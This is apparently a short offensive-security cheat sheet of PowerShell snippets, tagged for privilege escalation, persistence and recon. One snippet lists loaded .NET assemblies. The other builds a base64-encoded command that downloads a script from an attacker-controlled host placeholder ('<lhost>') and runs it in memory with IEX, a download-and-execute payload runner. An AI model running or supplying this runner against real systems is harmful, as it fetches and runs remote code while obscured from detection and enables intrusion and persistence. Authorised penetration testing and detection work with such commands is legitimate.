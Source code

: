 # pwsh

#plateform/windows #target/local #cat/UTILS #tag/powershell 


## powershell view assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```


## powershell - generate base64 encoded payload download runner
#plateform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```